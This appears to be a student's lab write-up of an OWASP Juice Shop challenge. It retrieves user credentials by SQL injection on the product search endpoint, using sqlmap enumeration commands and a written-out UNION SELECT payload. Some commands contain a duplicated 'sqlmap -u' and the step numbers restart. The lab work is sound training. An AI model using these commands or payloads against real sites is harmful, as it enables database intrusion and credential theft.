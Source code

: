 **Title:** Juice Shop - User Credentials (SQLi).

**Description:** Retrieve a list of all user credentials via SQL Injection. Endpoint   `GET /rest/products/search?q=` is vulnerable to SQL injection.

**Steps to produce:**  
1. Vulnerable field was already given: Get / `http://wasdat.fi:3000/rest/products/search?q=`.
2. Use SQL Map to find database type, and schema.
3. Open Kali linux and run command:
```bash
sqlmap -u http://wasdat.fi:3000/rest/products/search?q= --dbs --level=3 --risk=3
```  
```bash
sqlmap -u sqlmap -u http://wasdat.fi:3000/rest/products/search?q= --current-db --tables
```  
```
sqlmap -u sqlmap -u http://wasdat.fi:3000/rest/products/search?q= --current-db -T Users --columns
```  

4. Now we know that database is `SQLite`.  Database has `Users` table.
5. Navigate to `https://wasdat.fi:3000/`, click search field as active.
6. Search with: `http://wasdat.fi:3000/rest/products/search?q=')) ORDER BY 1--`
4. Response: `500 Error: SQLITE_ERROR: 1st ORDER BY term out of range - should be between 1 and 9`
    4. <img src="../images/was15.png" width="500" />
5. GET `http://wasdat.fi:3000/rest/products/search?q=')) UNION SELECT 1,2,3,4,5,6,7,8,9--`
6. User credentials are showing the json form.


<img src="../images/was12.png" width="500" />
